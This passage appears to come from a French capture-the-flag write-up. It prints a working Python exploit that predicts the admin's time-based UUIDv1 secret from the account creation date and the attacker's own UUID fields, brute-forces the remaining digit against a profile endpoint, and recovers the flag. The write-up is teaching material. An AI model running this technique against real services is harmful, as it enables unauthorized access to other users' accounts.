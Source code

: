 ```python

    try:
        print("Registering user", username, "with password", password)
        res_register: API.SuccessRes | API.ErrorRes = api.signup(username, password)
    except HTTPError as e:
        response = e.response
        # 400: "Username already exists", try to login anyway
        if response is None or response.status_code != 400:
            # Any other error is unexpected
            raise
        res_register = cast(API.ErrorRes, response.json())
    print("< Register:", res_register)

    # Login and the get the secret UUID to duplicate its node and clock_seq
    res_login = api.login(username, password)
    print("< Login:", res_login)
    my_uuid = UUID(res_login["secret"])
    assert my_uuid.version == 1, "Expected UUIDv1"

    # Get admin user creation date (admin is userid 1)
    admin = api.user(1)
    print("< Admin:", admin)
    date = API.parse_date(admin["creation_date"])

    # Try all possible values for the last digit of the UUID timestamp
    for delta in range(-9, 10):
        secret = uuid1_from_time(date, my_uuid.node, my_uuid.clock_seq, delta)
        print("Trying secret:", secret)
        try:
            res_profile = api.profile(secret)
        except HTTPError as e:
            response = e.response
            if response is None or response.status_code == 404:
                # 404: "Secret doesn't correspond to any user", try next secret
                continue
            # Any other error is unexpected
            raise
        # No error: we found the secret
        break
    else:
        print("Could not find secret :(")
        return

    print("Flag:", res_profile["note"])


if __name__ == "__main__":
    main()
```

### Résultat de l'exploitation

Le script Python s'exécute rapidement et trouve le secret de l'admin, qui est le flag du challenge :

![Résultat de l'exploitation](/images/broken-access-2/admin-secret-recovery.png)
